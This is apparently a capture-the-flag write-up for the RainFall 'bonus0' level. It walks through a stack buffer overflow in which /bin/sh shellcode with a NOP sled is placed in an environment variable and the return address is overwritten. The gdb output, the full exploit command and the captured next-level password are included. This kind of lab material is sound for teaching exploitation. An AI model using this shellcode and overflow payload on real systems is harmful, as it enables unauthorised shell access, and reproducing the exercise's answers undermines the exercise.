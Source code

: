 # Walkthrough

## Solution
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```
```
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA|���AAAAAAA��� AAAAAAAAA|���AAAAAAA���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Explanation

### Execution

```
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
you
hello you
bonus0@RainFall:~$ ./bonus0
 - 
he llo
 - 
you
he llo you
```
-> wait for 2 inputs and concatenate them


### Disassembly

```
info var
data_start

info function
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

Buffer addresses:  
buf = 0xbffff6f6  
buf1 = 0xbffff6a8  
buf2 = 0xbffff6bc  


### Steps

```
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
-> the 2nd input cause a segfault - **Offset is 9**
The buffer is only 20 chars, so we only have 11 bytes available to inject a shellcode, which is not enough.

Let's save our shellcode in an env variable:  
*Shellcode:*  
```
'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars
```  

The actual address of the shellcode must be known ahead of time, which can be difficult to know in a dynamically changing stack.
By creating a large array (or sled) of these NOP instructions and placing it before the shellcode, if the EIP returns to any address found in the NOP sled, the EIP will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. This means that as long as the return address is overwritten with any address found in the NOP sled, the EIP will slide down the sled to the shellcode, which will execute properly.  

**Shellcode env:**  
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  

#### Find the Shellcode env variable address

```
$> gdb bonus0
(gdb) break main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *((char **)environ)
0xbffff86c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
```  

the beginning of our NOP + shellcode is at address 0xbffff86c
-> we have to choose an address that contains a NOP (\x90), so that it will sled into the beginning of our shellcode and execute it

```
(gdb) x/12wx 0xbffff86c
0xbffff86c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff87c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff88c:	0x90909090	0x90909090	0x90909090	0x90909090
```

-> let's pick 0xbffff87c

> (python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0

<!-- 4095 + \n = 4096, to fill the buf3, \n because of the strchr(buf3, '\n') -->  
<!-- 'A' * 9 because the offset of the 2nd input that causes the segfault is 9 -->  
<!-- address of the shellcode (4 bytes) -->
<!-- 'A' * 7, so that we have 20 bytes for buf2 (9 + 4 + 7). -->  


source:  
https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html  
x/s *((char **)environ) to get address of env variables